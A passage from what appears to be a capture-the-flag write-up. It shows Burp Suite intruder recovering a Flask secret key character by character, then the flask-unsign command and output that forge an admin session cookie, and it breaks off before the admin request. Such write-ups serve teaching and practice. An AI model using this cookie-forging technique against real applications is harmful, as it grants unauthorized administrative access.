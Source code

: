 ```
</html>
```

From there, using `intruder` functionnality in **Burp Suite**, we can iterate through requests :

<img src="./6.png"
     alt="Markdown Monster icon"
     style="
     width: 80%;
     diplay: box;"
/>

One by one (57 chars), we get :

```
T1M3_h34ls_n0th1ng_1t_just_t34chs_us_h0w_t0_liv3_w1th_p4in
```

We forge a new cookie with this key :

```
└─$ flask-unsign --sign --cookie "{'user': 'admin'}" --secret 'T1M3_h34ls_n0th1ng_1t_just_t34chs_us_h0w_t0_liv3_w1th_p4in' --legacy
eyJ1c2VyIjoiYWRtaW4ifQ.ZAL1UA.Jszis_E_NSij8kZM0mZYD2NZoog
```

Then, we send a `GET` request to `/admin` :
